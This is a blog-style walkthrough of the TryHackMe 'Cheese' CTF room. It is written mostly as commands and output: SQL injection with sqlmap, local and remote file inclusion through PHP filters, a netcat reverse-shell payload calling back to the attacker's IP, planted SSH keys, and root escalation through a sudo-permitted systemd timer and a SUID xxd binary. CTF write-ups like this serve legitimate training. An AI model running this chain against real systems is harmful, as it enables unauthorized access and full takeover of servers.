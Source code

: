 ```yaml
---
layout: post
title:  "Cheese (THM)"
date:   2025-08-02 17:40:43 -0400
author: robo.uzi
tags: [TryHackMe, ctf]
---
```


## Initial Compromise

I run `nmap -sVC -T3 -oN cheesenmap.txt 10.10.60.166`. Nmap is useless on this room due to port spoofing.

I find an apache server on default port `80`. It's a login page.

Nothing apparent on the login screen. No helpful error messages so far.

I capture a login attempt with burpsuite and run the command `sqlmap -r req.txt --dump`

sqlmap finds a 302 redirect to: `http://10.10.60.166/secret-script.php?file=supersecretadminpanel.html`

I see on the page they are using php filters: 
```html
<li><a href="[secret-script.php?file=php://filter/resource=orders.html](view-source:http://10.10.60.166/secret-script.php?file=php://filter/resource=orders.html)">Orders</a></li>
```

I can see the source code of the secret script with `curl` and `base64`: `curl -s 'http://10.10.60.166/secret-script.php?file=php://filter/convert.base64-encode/resource=secret-script.php' | base64 -d`

```shell
<?php  
 //echo "Hello World";  
 if(isset($_GET['file'])) {  
   $file = $_GET['file'];  
   include($file);  
 }  
?>
```

To exploit the server I download `php_filter_chain_generator.py` from [https://github.com/synacktiv/php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator).

I use this command to generate a payload for a reverse shell: 
```shell
python3 php_filter_chain_generator.py --chain '<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.13.66.123 4444 >/tmp/f"); ?>' | grep '^php' > payload.txt
```

Set the listener with `rlwrap nc -lvnp 4444` and serve `payload.txt` with `python3 -m http.server`. Then visit `http://10.10.60.166/secret-script.php?file=http://10.13.66.123:8000/payload.txt`. This gets a shell as `www-data`.

___

## Privilege Escalation

I search for writeable files with `find / -type f -writable 2>/dev/null` and find `/home/comte/.ssh/authorized_keys`.

I can just add an ssh key and login.

I generate a key with `ssh-keygen -f key -t ed25519`

I run `echo 'ssh-ed25519 AAAAC3NzaC1lZDI1N...HW79LFuJDUxbwAOj' > /home/comte/.ssh/authorized_keys` on the machine.

Now I can ssh with `ssh -i id_rsa comte@10.10.60.166` with the password `password`.

I run `sudo -l` as `comte` and find:
```
   (ALL) NOPASSWD: /bin/systemctl daemon-reload  
   (ALL) NOPASSWD: /bin/systemctl restart exploit.timer  
   (ALL) NOPASSWD: /bin/systemctl start exploit.timer  
   (ALL) NOPASSWD: /bin/systemctl enable exploit.timer
```

I run `cat /etc/systemd/system/exploit.timer` and get
```
[Unit]  
Description=Exploit Timer  
  
[Timer]  
OnBootSec=  
  
[Install]  
WantedBy=timers.target
```
I can see the `OnBootSec=` has no value.

I run `cat /etc/systemd/system/exploit.service`  
```
[Unit]  
Description=Exploit Service  
  
[Service]  
Type=oneshot  
ExecStart=/bin/bash -c "/bin/cp /usr/bin/xxd /opt/xxd && /bin/chmod +sx /opt/xxd"
```
I see it copies the `xxd` binary to `opt` and sets the SUID bit

Fix the `exploit.timer` by adding `OnBootSec=10s`.

Then run
```
sudo /bin/systemctl daemon-reload
sudo /bin/systemctl start exploit.timer
systemctl status exploit.timer
```

There is now an `xxd` binary in `/opt` with the SUID bit set. Going to [https://gtfobins.github.io/gtfobins/xxd/](https://gtfobins.github.io/gtfobins/xxd/) shows that I can write to files with it. 

This can be used to add an ssh key for the root user. I will use the same key I generated before: `echo 'ssh-ed25519 AAAAC3NzaC1lZDI1N...HW79LFuJDUxbwAOj' | xxd | /opt/xxd -r - /root/.ssh/authorized_keys`

`ssh -i id_rsa root@10.10.89.93` and get the root flag

____

